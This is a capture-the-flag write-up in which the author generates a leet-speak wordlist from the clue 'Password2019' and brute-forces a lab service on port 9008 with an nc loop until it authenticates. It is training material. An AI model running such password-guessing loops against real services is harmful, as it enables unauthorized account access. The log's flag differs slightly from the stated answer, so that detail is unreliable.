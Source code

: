 # Bonus 08

The network service at target.xxxxxx.co on port 9008 asks the user to authenticate. The user has previously used bad passwords like Password2019. They learned their lesson though and have picked a much more secure password. We think they might still be predictable and using some kind of hacker speak, or symbols. Get the password and get the points!

## Solution

The hard part is to create a wordlist from the `Password2019` clue and leet speak...
I built a python script to generate it and then tried it on the server.

```
# I generate all variation of the "password" in leet speak + a date at the end
$ python leet.py > dict.txt

# Here it's a sample of the dict
$ tail -10 dict.txt
PA$$WORd2020!
PA$$WORd2021!
PA$$WORD
PA$$WORD!
PA$$WORD2019
PA$$WORD2020
PA$$WORD2021
PA$$WORD2019!
PA$$WORD2020!
PA$$WORD2021!

# About 24576 possible passwords
$ wc -l dict.txt
24576 dict.txt

# Try this wordlist on the server
for pass in $(cat dict.txt); do echo $pass;  printf "$pass\n" | nc target.xxxxxx.co 9008; done  > cracked.log

$ grep -i succes cracked.log
Succesfully authenticated client.

$ grep -C5 "Succesfully authenticated client."" cracked.log 
PaSSw0rd2020!
Password required > 
Authentication failure. Goodbye.
PaSSw0rd2021!
Password required > 
Succesfully authenticated client.

W0RdMangl3KungFU
PaSSw0rD
Password required > 
Authentication failure. Goodbye.
```

Flag is `W0RdMangl3KungFU!`
